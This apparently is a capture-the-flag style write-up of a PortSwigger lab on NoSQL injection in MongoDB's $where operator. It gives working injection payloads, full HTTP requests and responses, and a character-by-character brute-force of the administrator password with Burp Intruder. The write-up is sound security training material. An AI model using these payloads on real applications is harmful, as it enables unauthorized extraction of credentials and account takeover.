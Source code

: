 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d65cd1cd-7ed3-4cc3-b632-9aeb22fada48)

## Overview :

#### Exploiting syntax injection to extract data

In many NoSQL databases, some query operators or functions can run limited JavaScript code, such as MongoDB's `$where` operator and `mapReduce()` function. This means that, if a vulnerable application uses these operators or functions, the database may evaluate the JavaScript as part of the query. You may therefore be able to use JavaScript functions to extract data from the database. 

#### Exfiltrating data in MongoDB

Consider a vulnerable application that allows users to look up other registered usernames and displays their role. This triggers a request to the URL:
https://insecure-website.com/user/lookup?username=admin

This results in the following NoSQL query of the users collection:
```json
{"$where":"this.username == 'admin'"}
```

 As the query uses the $where operator, you can attempt to inject JavaScript functions into this query so that it returns sensitive data. For example, you could send the following payload:
```json
admin' && this.password[0] == 'a' || 'a'=='b
```

This returns the first character of the user's password string, enabling you to extract the password character by character.

You could also use the JavaScript match() function to extract information. For example, the following payload enables you to identify whether the password contains digits:
```json
admin' && this.password.match(/\d/) || 'a'=='b
```

## Solution :

Login as wiener. 

The following is the request & response sent .

**Request -**

```http
GET /user/lookup?user=wiener'+' HTTP/1.1
Host: 0a5a000604a69386817f4d0c00d50033.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5a000604a69386817f4d0c00d50033.web-security-academy.net/my-account?id=wiener
Connection: close
Cookie: session=IxSUIRgjxiu4z9R8PqzaavxdpaT460zx
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```

**Response -**

```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:10:55 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 81
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_che2
Via: HTTP/1.1 s_proxy_che2

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

The response contains the username , email & also the role of that user.

Inserting a `'` in the request ie (`user=wiener'`)causes an error in response .
```json
{
  "message": "There was an error getting user details"
}
```

The backend query might look something like this - `this.user == 'wiener'`

> This input likely results in an error because the application is attempting to execute a NoSQL query and the single quote (') is prematurely terminating the query, causing a syntax error - (`user='wiener''`).



But upon sending  `wiener'%2b'` (URL encoded form of `wiener'+'`) returns the details of wiener as usual.
```json
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:13:42 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 81
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_mum1
Via: HTTP/1.1 s_proxy_mum1

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```
> The plus sign (+) is acting as a **concatenation** or a way to continue the query. So, the resulting query might look like user=wiener' + '', and the plus sign helps to combine the intended query with the rest of the query, making it syntactically correct and allowing the query to proceed.

By this we can understand that the injected nosql query is being evaluated at the backend.

### Injecting boolean conditions -

**False condition:**

Inject `?user=wiener' && '1'=='2` , this triggers the following error in response.
```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:53:40 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 38
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_mum1
Via: HTTP/1.1 s_proxy_mum1

{
  "message": "Could not find user"
}
```

**True condition:**

Inject `?user=wiener' && '1'=='1` , this results ina successful response .
```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:57:20 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 81
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_che2
Via: HTTP/1.1 s_proxy_che2

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

### Finding the length of password :

To find the length of the password , we can use the following query
```sql
?user=administrator' && this.password.length==30%00
```

> We can stop at *<30* but since the query has a *'* at the end, we provide the *OR* query ie(** || 'a'=='a**).
> Note that we don't end the equal statement with a `'` because there is a trailing `'` at the end of the query getting added automatically at the end.

So the request looks like ,

```http
GET /user/lookup?user=administrator'%20%26%26%20this.password.length%20%3c%2030%20%7c%7c%20'a'%3d%3d'b HTTP/1.1
Host: 0a900010049b475283fbcdf900820099.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a900010049b475283fbcdf900820099.web-security-academy.net/my-account?id=wiener
Connection: close
Cookie: session=oWJad6obyaXSGiOE2hIcpAZ3ZXwcrhGS
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```

The response shows the email of admin. It means the query is executed successfully & confirming that **the password length is less than 30.**
```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 06:02:34 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 96
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_che2
Via: HTTP/1.1 s_proxy_che2

{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```

When we provide `this.password.length < 8`, the query fails & we get a failed response (*"message": "Could not find user"*).

So **the length of admin's password is 8**.

### Finding admin's password -

Now we ned to bruteforce each position from **0-7** by bruteforcing it with **a-z** to find the password.

Modify the nosql query payload as follows.

```nosql
user=administrator'%20%26%26%20this.password.match("^.{0}a.*$")%00 
```

Send the request to Intruder tab, Add the `this.password[**$0$**]` as payload 1 and `this.password[$0$]='**$a$**` as paylaod 2.

Payload 1 - Numbers from 1-10
Payload 2 - Characters from a-z

Click on start attack.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3f359128-701e-4712-a572-63034bbb6da1)

Now we have the admin's password - `oiwpuaam`

Login as admin to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1b7dee7d-f2c9-4e1b-98d8-ca8cff9e85d5)
